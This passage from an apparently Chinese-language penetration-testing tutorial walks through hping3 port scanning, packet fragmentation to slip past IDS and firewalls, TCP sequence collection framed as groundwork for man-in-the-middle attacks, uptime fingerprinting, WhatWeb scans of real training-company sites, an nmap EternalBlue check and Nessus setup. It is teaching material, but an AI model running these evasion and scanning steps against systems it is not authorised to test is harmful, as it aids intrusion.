len=46 ip=192.168.0.114 ttl=128 DF id=1893 sport=11 flags=RA seq=10 win=0 rtt=6.9 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1894 sport=12 flags=RA seq=11 win=0 rtt=6.1 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1895 sport=13 flags=RA seq=12 win=0 rtt=5.9 ms
len=46 ip=192.168.0.114 ttl=128 DF id=1896 sport=14 flags=RA seq=13 win=0 rtt=5.9 ms
```

```
root@kali:~$ hping3 -S -f 192.168.1.116 -p 445
HPING 192.168.1.116 (eth0 192.168.1.116): S set, 40 headers + 0 data bytes
len=46 ip=192.168.1.116 ttl=128 DF id=18306 sport=445 flags=SA seq=0 win=8192 rtt=1.8 ms
len=46 ip=192.168.1.116 ttl=128 DF id=18307 sport=445 flags=SA seq=1 win=8192 rtt=1.5 ms
len=46 ip=192.168.1.116 ttl=128 DF id=18308 sport=445 flags=SA seq=2 win=8192 rtt=1.3 ms
len=46 ip=192.168.1.116 ttl=128 DF id=18309 sport=445 flags=SA seq=3 win=8192 rtt=1.1 ms
len=46 ip=192.168.1.116 ttl=128 DF id=18310 sport=445 flags=SA seq=4 win=8192 rtt=1.4 ms
len=46 ip=192.168.1.116 ttl=128 DF id=18311 sport=445 flags=SA seq=5 win=8192 rtt=1.8 ms
len=46 ip=192.168.1.116 ttl=128 DF id=18312 sport=445 flags=SA seq=6 win=8192 rtt=6.5 ms
```

请注意第五列，它从扫描端口 1 开始，然后是端口 2，接着是端口 3……它将继续扫描所有 65535 个端口，直到结束或您按下 `Ctrl+C`。

### 分片数据包

正如我在 `hping3` 的介绍中提到的，有时您可以通过分片数据包来绕过 IDS 和防火墙等安全设备。我们可以使用 `hping3` 的 `-f` 开关来实现这一点，例如：`kali > hping3 -S -f 192.168.1.116 -p 445`。

由于数据包被拆分为原始数据包的许多小片段，在某些情况下，IDS 或防火墙的攻击签名不会匹配这些分片数据包。

```
root@kali:-# hping3 -Q 0 google.com -p 80
HPING google.com (eth0 74.125.239.130): S set, 40 headers + 0 data bytes
229375066 +229375066
141258272 +4206850501
2288187613 +2146929341
849247683 +2856027365
1247146679 +397898996
3673440894 +2426294215
1072409767 +1693936168
2485301374 +1412891607
2770603782 +285302408
3069831418 +299227636
```


### 预测序列号

TCP/IP 使用序列号来确保数据包

如果数据包未按正确顺序到达，它们可以在目标端按照发送时的顺序进行重新排序。由于并非所有数据包都必然走相同的路径，因此它们到达的顺序可能与发送顺序不一致。这一机制是赋予 TCP 协议其健壮性的要素之一。

中间人攻击（MiTM）必须正确设置这些序列号。为了防止 MiTM 攻击，操作系统开发人员不再使用按顺序排列的序列号（如 1、2、3...）。相反，他们现在使用算法来生成序列号，从而使进行 MiTM 攻击变得更加困难。`Hping3` 使我们可以收集这些序列号，以便我们稍后预测它们，用于 MiTM 和其他类型的攻击。

让我们扫描 `google.com` 并收集一些序列号。我们可以通过使用 `-Q` 开关来实现这一点，该开关将收集并回显返回数据包中仅有的序列号。

```bash
kali > hping3 -Q -S google.com -p 80
```

如你所见，`hping3` 能够返回由操作系统 TCP/IP 协议栈生成的序列号。只要有足够多的这些序列号，我们就能确定该算法，进而为有效的 MiTM 攻击预测序列号。

### 使用 Hping3 获取系统正常运行时间

我们可以使用 `hping3` 做的真正有趣的事情之一是检查系统已经持续运行了多长时间。通常，这意味着系统自上次重启以来已经过去了多久，当然，这通常也是系统自上次应用安全更新补丁以来所经过时间的指示。

TCP 协议有一个名为“timestamp”（时间戳）的字段，它计算自操作系统上次启动以来经过的秒数。我们可以使用 `hping3` 中的 `"-tcp-timestamp"` 开关来获取该值。它会向目标系统发送请求并获取此字段，然后将其转换为天、小时、分钟和秒。让我们对 `google.com` 进行尝试。

```bash
root@kali:~# hping3 -tcp-timestamp -S google.com -p 80
HPING google.com (eth0 216.58.192.14): S set, 40 headers + 0 data bytes
len=56 ip=216.58.192.14 ttl=54 id=17905 sport=80 flags=SA seq=0 win=42540 rtt=38.2 ms
TCP timestamp: tcpts=857981190
len=56 ip=216.58.192.14 ttl=54 id=14118 sport=80 flags=S seq=1 win=42540 rtt=38.1 ms
TCP timestamp: tcpts=858100827
HZ seems hz=1000
System uptime seems: 9 days, 22 hours, 21 minutes, 40 seconds
```


如你所见，当我对 Google 服务器运行此命令时，它返回一条消息，显示该服务器的时间戳为 858100827，并将其转换为 9 天、22 小时、21 分钟和 40 秒。

作为一名黑客/渗透测试人员，这些信息可能极具价值！这意味着该系统是 9 天前重启的。如果在这 9 天内有针对已知漏洞的最新补丁发布，我们可以断定该系统`没有`打补丁，并且很可能易受该已知利用程序的攻击。

# 网站主动侦察

Nmap 和 `hping3` 是主动确定任何系统的关键元素（如端口、服务和操作系统）的绝佳工具。在扫描网站时，我们需要使用另一组工具。

网站是使用多种技术构建的（参见 [Web Technologies](#)）。在大多数情况下，在我们制定网站的攻击策略之前，我们需要了解用于构建该网站的技术。针对网站的攻击不是通用的。例如，针对基于 WordPress 的网站发起的攻击不会对基于 .NET 的网站生效，反之亦然。我们需要首先进行这种类型的侦察，然后再进一步去攻陷网站。

`WhatWeb` 是一个 Python 脚本，它探测网站中服务器、CMS 以及用于开发该网站的其他技术的特征。根据 WhatWeb 网页的描述：`WhatWeb` 可以识别多种 Web 技术，包括内容管理系统（CMS）、博客平台、统计/分析软件包、JavaScript 库、Web 服务器和嵌入式设备。`WhatWeb` 拥有超过 1700 个插件，每个插件用于识别不同的内容。`WhatWeb` 还可以识别版本号、电子邮件地址、账户 ID、Web 框架模块、SQL 错误等。

一旦我们知道网站运行的是哪些技术，我们就可以运行漏洞扫描以发现已知漏洞并制定攻击策略。

```bash
root@kali:~# whatweb -h
WhatWeb - Next generation web scanner version 0.4.9.
Developed by Andrew Horton aka urbanadventurer and Brendan Coles.
Homepage: http://www.morningstarsecurity.com/research/whatweb

Usage: whatweb [options] <URL>

TARGET SELECTION:
<TARGETS> Enter URLs, hostnames, IP addresses,
filenames, or map-format IP address ranges.
--input-file=FILE, -i Read targets from a file. You can pipe
hostnames or URLs directly with -i /dev/stdin.

TARGET MODIFICATION:
--url-prefix Add a prefix to target URLs.
--url-suffix Add a suffix to target URLs.
--url-pattern Insert the targets into a URL.
e.g. example.com/insert%i/robots.txt

AGGRESSION:
The aggression level controls the trade-off between speed/stealth and
reliability.
-aggression, -a=LEVEL Set the aggression level. Default: 1.
1. Stealth Makes one HTTP request per target and also
follows redirects.
2. Aggressive If a level 2 plugin is matched, additional
requests will be made.
3. Heavy Makes a lot of HTTP requests per target. URLs
from all plugins are attempted.
```

首先，让我们查看 `WhatWeb` 的帮助界面。`WhatWeb` 显示几页帮助信息。我们可以看到，在这一屏幕上，使用 `whatweb` 的基本语法是：`whatweb [options] <URL>`。你还会注意到在这第一部分有一个标题为“Aggression”（激进程度）的段落。在这里，我们可以选择我们在探测网站时想要多少隐蔽性。扫描越激进，准确性越高，但你的扫描被安全设备和网站所有者检测到的可能性也越大。

当我们滚动到帮助界面的底部，可以看到一些示例。在大多数情况下，我们只需输入命令 `whatweb`，后跟目标网站的 URL 即可。

### 扫描网站以确定所使用的技术

让我们尝试扫描一些提供信息安全（infosec）培训公司的网站。让我们看看它们是否真的像他们在课程中教导的那样保护了自己的网站。

让我们先扫描 `sans.org`。

```bash
kali > whatweb sans.org
```







当我们扫描 `sans.org` 时，我们可以看到他们隐藏了国家信息，使用 Apache 作为 Web 服务器，并使用了 Incapsula Web 应用程序防火墙（WAF）；信息最小化，他们做得很好！

接下来，让我们对另一家信息安全培训公司 Infosec Institute 的网站 `www.infosecinstitute.com` 进行相同的扫描。

```bash
kali > whatweb infosecinstitute.com
```

我们对 `www.infosecinstitute.com` 的扫描揭示了稍多的一些信息，例如他们的国家（美国）、他们的 Web 服务器（nginx）以及他们的 CMS（WordPress）。

最后，让我们扫描信息安全培训网站 `www.cybrary.it`。

```bash
kali > whatweb cybrary.it
```

如上所示，`www.cybrary.it` 的服务器位于美国，他们正在使用 Amazon Web Services (AWS)、Amazon 的内容分发系统 (CDS)、Cloudfront 以及 CMS WordPress。

## 摘要

`WhatWeb` 是一个有效的工具，用于扫描网站以了解它们正在运行的技术。与 Netcraft 不同，`WhatWeb` 是一个主动工具，因为它向网站发送探测包以确定使用的技术。`WhatWeb` 相比 Netcraft 的一个关键优势在于，Netcraft 只收集并索引最活跃的网站，而我们可以将 `WhatWeb` 用于任何网站，即使是那些最小的网站。

### BuiltWith Web 技术

`WhatWeb` 是确定网站所用技术的优秀工具，但在我们的黑客箭囊中备有多种武器总是一个好主意。网站 `www.builtwith.com` 执行类似的任务和分析。它的一些基本功能是免费提供的，但要使用其`所有`功能，你需要注册并支付年费。

BuiltWith 的一项关键功能是识别使用特定技术的`所有`网站。

想象一下，在基于 WordPress v.4.9 构建的网站中暴露了一个新漏洞。BuiltWith 能够为你提供一份使用该技术构建的所有网站的列表。


只需在“Technology Name”（技术名称）窗口中输入技术的名称即可。

# 7. 寻找可利用的漏洞

每一个对手——无论多么强大——总存在弱点。OTW 精通此道

通过被动和主动侦察，我们已经对目标系统的潜在端口、服务、操作系统和技术有了初步了解。下一步就是寻找可能被攻击者利用的漏洞。根据维基百科的定义，漏洞是指：`威胁行为者（如攻击者）可利用的弱点，用于在计算机系统中执行未授权的操作`。

我倾向于把漏洞想象成计算机系统中一扇未妥善关闭或锁好的窗户或门。如果黑客知道该漏洞的存在，他们通常就能加以利用。

### 什么是漏洞扫描？

漏洞扫描是查找已知漏洞的过程。我们通常使用一种被称为漏洞扫描器的工具，它会向操作系统、服务和应用程序发送探针，以确定是否存在已知漏洞。这些扫描器既非完美也非隐蔽。

尽管渗透测试人员经常使用漏洞扫描器，但那些必须保持隐蔽的黑客很少有机会使用，因为这些漏洞扫描器非常“嘈杂”，容易被检测到。

尽管如此，如果攻击者处于可以使用漏洞扫描器的位置，他们可以节省数小时、数天甚至数周的工作时间。

此外，漏洞扫描器往往会生成大量误报（见下文）。渗透测试人员的工作是通过尝试利用这些潜在漏洞，来判断扫描器发现的是真实漏洞还是误报。


### 漏洞扫描器是如何工作的？

诸如 Nessus、Nexpose、Qualys 和 Acunetix（以及其他）等漏洞扫描器维护着已知漏洞的数据库。这些漏洞具有扫描器可以探测的特征或签名，以判断它们是否存在。例如，被 WannaCry 和 Petya 等勒索软件利用的 EternalBlue 漏洞，利用了 Windows 驱动程序文件 `srv.sys` 中的缺陷。

漏洞扫描器只需检查位于 `C:\Windows\system32\drivers` 的文件是否已更新为 `srv2.sys`。如果已更新，则系统不受 EternalBlue 漏洞及相关恶意软件的影响。

此外，漏洞扫描器还会检查操作系统和应用程序的补丁是否为最新。

### 什么是误报？

当系统（如漏洞扫描器）声称某事物存在，但实际上并不存在时，就会产生误报。例如，如果你的系统漏洞扫描器显示你的系统易受 EternalBlue 攻击但实际上并非如此，那就是一个误报。不幸的是，漏洞扫描器远非完美，会产生大量误报。

- **误报（False Positive）**
  - 扫描器指示漏洞存在（阳性），但它实际上不存在（虚假）。
- **漏报（False Negative）**
  - 扫描器指示漏洞不存在（阴性），但它实际上存在（真实）。
- **真阳性（True Positive）**
  - 扫描器指示漏洞存在（阳性），且它确实存在（真实）。
- **真阴性（True Negative）**
  - 扫描器指示漏洞不存在（阴性），且它确实不存在（真实）。

尽管漏报令人沮丧，但在产生误报和漏报的系统之间做选择时，我们显然更倾向于误报。

### EternalBlue nmap 漏洞扫描器

让我们测试 Windows 7 系统是否存在 EternalBlue 漏洞。如前文第 6 章所述，nmap 的功能在最近几年得到了巨大扩展。Nmap 现在可以运行用 Lua 编写的专用脚本。其中一个脚本就是 EternalBlue 漏洞扫描器。请注意，该脚本仅用于测试这一种漏洞。

要运行此漏洞扫描脚本，我们只需将 nmap 扫描器指向 Windows 系统的 IP 地址及其 SMB 端口（445），然后包含 `-script` 选项并后跟脚本名称，在本例中为 `smb-vuln-ms17-010`。

```
kali > nmap 192.168.0.157 -p445 -script smb-vuln-ms17-010
```

### Nessus 漏洞扫描

上述使用的 nmap 脚本在识别我们未打补丁的 Windows 7 系统中的那个单一漏洞时是有效的。对于那一个漏洞它是有效的，但远非全面。如果我们想要或需要扫描所有已知漏洞该怎么办？这正是像 Nessus 这样的漏洞扫描器所能做到的。尽管市场上有许多有效的漏洞扫描器，但 Nessus 是我最喜欢的，也是 44% 的安全工程师的最爱。Nessus 始于 Renaud Deraison 在 1998 年发起的一个开源项目（就像 Snort、Metasploit 以及许多其他信息安全项目一样）。2005 年，Deraison 的公司 Tenable Network Security 将这款软件转为专有和闭源。幸运的是，它仍然有一个免费的 Essentials 版本（以前称为 Home 版本），可以无限期免费使用，最多支持 16 个 IP 地址。

让我们用它来测试我们的 Windows 7 系统。

前往 [Nessus 页面](https://www.tenable.com/products/nessus/nessus-essentials) 并下载 Nessus 的 Essentials（家庭）版本。

https://www.tenable.com/products/nessus/nessus-essentials


| 名称 | 描述 | 详情 |
| --- | --- | --- |
| Nessus-8.4.0-x64.msi | Windows Server 2008, Server 2008 R2*, Server 2012, Server 2012 R2, 7, 8, 10, Server 2016 (64-bit) | Checksum |
| Nessus-8.4.0-Win32.msi | Windows 7, 8, 10 (32-bit) | Checksum |
| Nessus-8.4.0-debian6_i386.deb | Debian 6, 7, 8, 9 / Kali Linux 1, 2017.3 i386(32-bit) | Checksum |
| Nessus-8.4.0-es5.i386.rpm | Red Hat ES 5 i386(32-bit) / CentOS 5 / Oracle Linux 5 (including Unbreakable Enterprise Kernel) | Checksum |
| Nessus-8.4.0-suse12x86_64.rpm | SUSE 12 Enterprise (64-bit) | Checksum |
| Nessus-8.4.0-ubuntu910_i386.deb | Ubuntu 9.10 / Ubuntu 10.04 i386(32-bit) | Checksum |
| Nessus-8.4.0-debian6_amd64.deb | Debian 6, 7, 8, 9 / Kali Linux 1, 2017.3 AMD64 | Checksum |
| Nessus-8.4.0-es6.i386.rpm | Red Hat ES 6 i386(32-bit) / CentOS 6 / Oracle Linux 6 (including Unbreakable Enterprise Kernel) | Checksum |
| Nessus-8.4.0-fc20.x86_64.rpm | Fedora 20, 21, 25, 26, 27 (64-bit) | Checksum |
| Nessus-8.4.0-ubuntu910_amd64.deb | Ubuntu 9.10 / Ubuntu 10.04 (64-bit) | Checksum |

点击以下载合适的版本。由于我在整本书中都使用 Kali，我下载了 Debian 6,7,8/Kali Linux 的版本（如前所述，Kali 基于 Debian 构建，就像 Ubuntu 一样）。

接下来，同意主许可协议（Master License）。

一旦 Nessus 下载完成，导航到你 Kali 系统上的 Downloads 目录。

```bash
kali > cd /root/Downloads
```

在 Downloads 目录中，你应该能看到你的 Nessus 包。现在，使用 `dpkg` 命令来解压并安装 Nessus。

```bash
kali > dpkg -i Nessus-8.5.1-debian6_amd64.deb
```

请注意，你下载的 Nessus 版本可能不同。请在 `dpkg` 命令的 `-i` 后面输入你的版本包名。

```bash
root@kali-2019:~# cd Downloads
root@kali-2019:~/Downloads# ls -l
total 75400
-rw-r--r-- 1 root root 77287016 Jul 18 09:08 Nessus-8.5.1-debian6_amd64.deb
root@kali-2019:~/Downloads# dpkg -i Nessus-8.5.1-debian6_amd64.deb
(Reading database ... 375790 files and directories currently installed.)
Preparing to unpack Nessus-8.5.1-debian6_amd64.deb ...
Shutting down Nessus .
Unpacking nessus (8.5.1) over (8.5.1) ...
Setting up nessus (8.5.1) ...
Unpacking Nessus Scanner Core Components...

 - You can start Nessus Scanner by typing /etc/init.d/nessusd start
 - Then go to https://kali-2019:8834/ to configure your scanner
Processing triggers for systemd (240-4) ...
```

```bash
root@kali-2019:~/Downloads# /etc/init.d/nessusd start
Starting Nessus : .
root@kali-2019:~/Downloads#
```


当安装完成后，我们接下来需要启动 Nessus。我们可以输入以下命令来启动它：

```bash
kali > /etc/init.d/nessusd start
```

现在，打开你的浏览器并前往 [https://localhost:8834](https://localhost:8834)。你的浏览器可能会抱怨连接不安全（Nessus 使用自生成证书）。忽略这些警告，为你的 Nessus 服务器创建一个安全例外并继续。

你应该会看到如下所示的 Nessus 界面。在这个界面上，你将创建你的 Nessus 服务器账户。


### 创建账户

要使用此扫描器，必须创建一个账户。此账户可以在远程目标上执行命令，并且应当被视为 root 用户。

- 用户名 *

- 密码 *

- 继续



接下来，你需要输入 Nessus 通过电子邮件发送给你的激活代码。请确保将扫描器类型选为“Essentials”。

输入你的激活代码并点击继续。Nessus 现在开始初始化你的扫描器，下载插件和漏洞数据库。


### 初始化中

请在 Nessus 准备扫描资产所需文件时稍等。

正在下载插件...


这可能需要一段时间。去拿你喜欢的饮料然后等待……然后也许再拿一杯。

当初始化完成后，使用你上面输入的凭据登录。

一旦我们登录 Nessus，就会看到“我的扫描（My Scans）”界面。由于我们还没有执行过漏洞扫描，这里暂时不会显示任何扫描。你可以看到右上角有一个标记为“新建扫描（New Scan）”的按钮。点击它以开始一个新的漏洞扫描。






这应该打开一个界面，询问你想要进行哪种类型的扫描。让我们选择顶部第二行左侧的“高级扫描（Advanced Scan）”。

这将打开一个界面，要求你为扫描命名（这只是一个标签），所以我把我的命名为“NewScan”。很有创意，对吧？你还需要输入描述、文件夹，以及最重要的，你想扫描的 IP 地址。这可以是 IP 地址列表或子网的 CIDR 表示法。

如果有很多 IP 地址，你可以上传一个包含 IP 地址的文件，位于底部附近。这里，我将只扫描我本地网络上的 Windows 7 系统（192.168.0.102）。


### 新建扫描 / 高级扫描

- 返回扫描模板

- + 设置

- + 凭据

- + 插件

- + 基础

    - 常规

    - 计划

    - 通知

- + 发现

- + 评估

- + 报告

- + 高级

- 名称: New Scan

- 描述: 我对 Windows 7 的第一次 Nessus 扫描

- 文件夹: 我的扫描

- 目标: 192.168.0.102

- 上传目标: 添加文件


### 我的扫描

- + 更多

- + 导入

- + 新建文件夹

- + 新建扫描

- 1 个扫描 (已选择 1 个)

- 清除已选项目

| 名称 | 计划 | 最后修改 |
| --- | --- | --- |
| New Scan | 手动 | 无 |

这将加载你的扫描并展示如下所示的界面。在最右侧，你会看到一个 | > 按钮。当你点击它时，你的扫描将开始。

当 Nessus 完成你的漏洞扫描后，打开该扫描，你将看到扫描的图形化表示。在我的情况下，有许多“信息（info）”级别的漏洞，两个中等级别的漏洞，以及两个

关键漏洞。尽管所有漏洞都至关重要，但我们应该优先关注关键漏洞，因为它们可能使我们的系统易受勒索软件和远程代码执行（RCE）等危险的攻击。

让我们点击图表中的关键部分。这将打开并显示关键漏洞。



